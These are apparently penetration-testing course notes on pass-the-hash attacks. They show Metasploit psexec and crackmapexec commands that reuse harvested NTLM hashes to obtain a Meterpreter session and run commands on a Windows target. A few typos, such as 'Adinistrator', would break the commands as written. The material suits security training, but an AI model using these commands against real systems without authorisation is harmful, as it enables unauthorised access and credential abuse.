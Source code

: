 # D - Pass the Hash Attacks

After obtaining NTLM hashes, what can we do with them apart from cracking them?

We can perform a "Pass the hash Attack".

### **Pass-The-Hash**

* Pass-The-Hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
* We can use multiple tools to facilitate a Pass-The-Hash attack:
  * Metasploit PsExec module
  * Crackmapexec
* This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.



## **Practical Demonstration**

#### Using  \[psexec] Metasploit module

```bash
# after getting the administrator NTLM hash from "kiwi" extension, we can copy it into to a "cred.txt" file.
# Administrator: <hash>
# student: <hash>

# step 1
# in order to use the "psexec" module, we need to get the LM hash in addition to the NTLM or NT hash we already got above.
# how to get the LM hash?
hashdump # in the meterpreter session.
# hashdump displays the <acct_name>:<ID>:LM_hash:NTLM_hash:::
# so we copy the [LM_hash:NTLM_hash] of the required user we need, then paste in same "cred.txt" file above.
ctrl+Z # minimize current meterpreter session.
search psexec
use exploit/windows/smb/psexec
# you can leave the default 32bit payload.
options
set LPORT 4422
set RHOSTS $ip
set SMBUser Adinistrator
set SMBPass <LM_hash:NTLM_hash>
set target <tab+key> # for more options.
set target Native\ upload # upload the meterpreter payload.
exploit
# we get a meterpreter session.
sysinfo 
getuid

session -K # to kill sessions.
```

#### Using  \[crackmapexec]

`crackmapexec smb $ip -u Administrator -H "<NITLM_hash ONLY>"` - authenticate with the creds.

`crackmapexec smb $ip -u Administrator -H "<NITLM_hash ONLY>" -x "ipconfig"`  - we get the cmd result with some errors, but don't worry abt it (:



